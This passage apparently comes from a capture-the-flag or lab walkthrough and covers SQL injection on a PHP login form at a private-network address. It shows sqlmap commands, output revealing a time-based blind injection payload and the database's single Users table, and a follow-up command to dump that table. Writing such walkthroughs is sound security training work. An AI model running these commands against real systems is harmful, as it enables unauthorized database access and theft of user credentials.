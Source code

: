 ```bash
sqlmap -u 'http://10.38.1.117:1337/978345210/index.php' --data='username=username&password=password&submit=' --level=5 --risk=3 -D Webapp --tables
```

```Output
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:04:29 /2024-12-17/

[22:04:30] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:04:30] [INFO] resuming back-end DBMS 'mysql' 
[22:04:30] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=b46u33ehbks...18a0tugd34'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=username' AND (SELECT 4492 FROM (SELECT(SLEEP(5)))juSH)-- mLUu&password=password&submit=
---
[22:04:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.5.9, Apache 2.4.7, PHP
back-end DBMS: MySQL >= 5.0.12
[22:04:31] [INFO] fetching tables for database: 'Webapp'
[22:04:31] [INFO] fetching number of tables for database 'Webapp'
[22:04:31] [INFO] resumed: 1
[22:04:31] [INFO] resumed: Users
Database: Webapp
[1 table]
+-------+
| Users |
+-------+

[22:04:31] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.38.1.117'

[*] ending @ 22:04:31 /2024-12-17/

```

There is only one entry for the database tables in the database Webapp containing the users 

For further enumeration, we tend to dump all the data from the database and here we go 
### 9.3 Dumping the data in the table users

```bash 
sqlmap -u 'http://10.38.1.117:1337/978345210/index.php' --data='username=username&password=password&submit=' --level=5 --risk=3 -D Webapp -T Users --dump
```
